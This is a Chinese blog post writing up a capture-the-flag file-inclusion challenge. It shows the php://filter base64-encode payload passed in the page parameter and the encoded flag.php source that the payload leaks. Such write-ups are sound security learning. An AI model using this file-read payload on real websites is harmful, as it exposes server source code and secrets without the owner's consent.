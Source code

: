 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:       FileInclude			# 标题 
#subtitle:   脚本，xss #副标题
date:       2020-03-17 				# 时间
author:     s-seven 						# 作者
header-img: img/post-bg-2015.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - CTF
---
```


# FileInclude

上一篇博客我转载了一篇关于文件包含漏洞的知识总结，里面关于常见的几种文件包含函数有比较详细的解释，那我们来看一下这道题

![屏幕截图.jpg](http://ww1.sinaimg.cn/large/005KQQDely1gcx7osvhmtj30gm017glh.jpg)

**php://filter**：

可以获取指定文件源码。当它与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，让其不执行。从而导致 任意文件读取。

我们利用这一条性质，开始时我构造的payload是：

`？page=php://filter/resource=flag.php`

发现不行

后来又构造了：

`?page=php://filter/read=convert.base64-encode/resource=flag`

将文件内容进行base64编码后显示在浏览器上，再自行解码

页面跳转，拿到一串字符

aGEgaGE/IHlvdSB3YW50IGZsYWc/IGZsYWcgaXMgaGVyZTw/cGhwDQovLyB0cnkgdG8gcmVhZCB0aGlzIHNvdXJjZSBjb2RlDQovLyRmbGFnID0gJ2ZsYWd7cmVhbGx5X2Jhc2ljX3NraWxsX3dlYl9kb2dfc2hvdWxkX2tub3d9JzsNCj8+LCBidXQgZG9uJ3QgbGV0IHlvdSBzZWUhDQo=

于是我拿到网页上的base64在线解码，拿到flag。
